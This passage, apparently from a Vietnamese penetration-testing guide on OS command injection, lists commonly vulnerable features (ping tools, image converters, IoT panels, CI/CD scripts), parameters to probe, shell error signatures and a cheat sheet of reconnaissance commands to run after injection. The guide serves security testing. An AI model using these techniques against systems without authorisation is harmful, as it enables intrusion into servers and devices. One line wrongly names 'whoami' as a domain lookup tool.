* Phát hiện kênh ngoài (OOB Detection): Gửi các payload chèn lệnh kích hoạt các kết nối đi ra ngoài thông qua giao thức DNS hoặc HTTP trỏ về hệ thống máy chủ giám sát của người kiểm thử.

## Các tình huống thực tế phổ biến (Case Study)

### Chức năng Ping và Traceroute trên thiết bị mạng

Các thiết bị mạng như router, tường lửa hoặc các ứng dụng quản trị hệ thống thường cung cấp giao diện web cho phép quản trị viên kiểm tra kết nối mạng.

Nhiều ứng dụng lập trình bằng cách lấy chuỗi địa chỉ IP nhập từ giao diện và nối trực tiếp vào câu lệnh ping hoặc traceroute của hệ điều hành.

Điều này tạo ra điểm khai thác lỗ hổng chèn lệnh điển hình.

### Chức năng DNS Lookup và WHOIS trên giao diện quản trị

Tương tự như chức năng ping, các công cụ tra cứu thông tin tên miền thường gọi các chương trình hệ thống như nslookup, dig, hoặc whoami.

Nếu ứng dụng không thực hiện lọc ký tự phân tách câu lệnh, kẻ tấn công có thể chèn thêm các lệnh hệ thống để chiếm quyền kiểm soát máy chủ.

### Chức năng chuyển đổi tệp tin hình ảnh hoặc video

Nhiều ứng dụng cho phép người dùng tải lên hình ảnh hoặc video để thực hiện thay đổi kích thước, định dạng hoặc cắt ghép.

Các ứng dụng này thường gọi các công cụ dòng lệnh chuyên dụng chạy dưới nền hệ điều hành như ImageMagick để xử lý ảnh hoặc FFmpeg để xử lý video.

Khi dữ liệu tên tệp tin hoặc các tham số cấu hình hình ảnh chứa ký tự đặc biệt, lỗi chèn lệnh sẽ xuất hiện tại các điểm tiếp nhận này.

### Lỗ hổng trên thiết bị phần cứng IoT

Các thiết bị phần cứng thông minh IoT thường chạy hệ điều hành Linux rút gọn.

Giao diện quản trị web của các thiết bị này thường được viết bằng ngôn ngữ C hoặc các đoạn mã kịch bản đơn giản.

Do hạn chế về mặt tài nguyên và tiêu chuẩn an toàn thông tin, các lập trình viên thường gọi trực tiếp lệnh shell để thiết lập cấu hình mạng, dẫn đến nguy cơ bị khai thác chiếm quyền điều khiển thiết bị ở mức đặc quyền cao nhất.

### Lỗ hổng trong CI/CD, Docker, Git hooks và kịch bản sao lưu

Các hệ thống phát triển phần mềm hiện đại cũng đối mặt với nguy cơ chèn lệnh tại các điểm tự động hóa:

* Hệ thống tích hợp liên tục (CI/CD): Các kịch bản xây dựng tự động lấy tên nhánh Git hoặc nội dung của các yêu cầu kéo mã nguồn (Pull Request) để đưa vào các câu lệnh shell.
* Docker và Container: Các tiến trình chạy lệnh quản trị để tạo hoặc kiểm tra container nhận tham số không an toàn từ phía người dùng.
* Git hooks: Kịch bản được thiết lập để tự động chạy khi máy chủ tiếp nhận các yêu cầu cập nhật mã nguồn, có thể bị lợi dụng nếu dữ liệu cấu hình bị thao túng.
* Kịch bản sao lưu dữ liệu (Backup scripts): Các tệp kịch bản hệ thống chạy định kỳ bằng quyền quản trị để nén thư mục, lấy tên tệp tin động do người dùng đặt mà không qua bước chuẩn hóa.

## Danh sách kiểm tra lỗi (Pentest Checklist)

### Các tham số đầu vào cần rà soát

Cần tập trung kiểm tra các tham số có tên gọi liên quan đến chức năng hệ thống hoặc mạng:

* Các tham số liên quan địa chỉ mạng: host, ip, address, domain.
* Các tham số liên quan tệp tin hoặc đường dẫn: file, doc, path, dir, folder.
* Các tham số liên quan đến liên kết tải dữ liệu: url, link, source.

### Dấu hiệu nhận biết qua thông tin thông báo lỗi

Rà soát phản hồi từ ứng dụng để tìm kiếm các thông báo lỗi đặc trưng của hệ điều hành:

* Trên hệ thống Linux: các lỗi thông báo dạng 'command not found', 'syntax error near unexpected token', hoặc thông tin lỗi từ các chương trình shell.
* Trên hệ thống Windows: các thông báo lỗi dạng 'is not recognized as an internal or external command', 'operable program or batch file'.

### Cheat sheet lệnh kiểm tra nhanh trên Linux và Windows

Khi thực hiện kiểm thử gián tiếp hoặc đánh giá checklist, cần giám sát các chỉ số phản hồi sau:

* Thời gian phản hồi (Response Time): Thay đổi rõ rệt khi gửi các payload trễ tiến trình như sleep hoặc ping.
* Mã trạng thái HTTP (Status Code): Thay đổi mã trạng thái phản hồi (ví dụ từ 200 sang 500 do lỗi cú pháp shell).
* Tiêu đề phản hồi (Header): Xuất hiện các tiêu đề mới hoặc thay đổi giá trị.
* Độ dài nội dung phản hồi (Content Length): Độ dài nội dung phản hồi thay đổi do kết quả câu lệnh được in ra hoặc do thông báo lỗi shell.
* Các lệnh kiểm tra nhanh cho môi trường Linux:

```bash
# kiem tra thong tin nguoi dung dang chay tien trinh
whoami
id

# kiem tra thong tin he dieu hanh va phien ban nhan
uname -a

# kiem tra cac tien trinh dang hoat dong tren may chu
ps -ef

# kiem tra cac ket noi mang va cong dang mo
netstat -an
```

* Các lệnh kiểm tra nhanh cho môi trường Windows:

```cmd
# kiem tra thong tin nguoi dung he thong
whoami

# kiem tra thong tin cau hinh he thong chi tiet
systeminfo

# kiem tra danh sach cac tien trinh dang chay
tasklist

# kiem tra danh sach cac card mang va dia chi IP
ipconfig /all
```
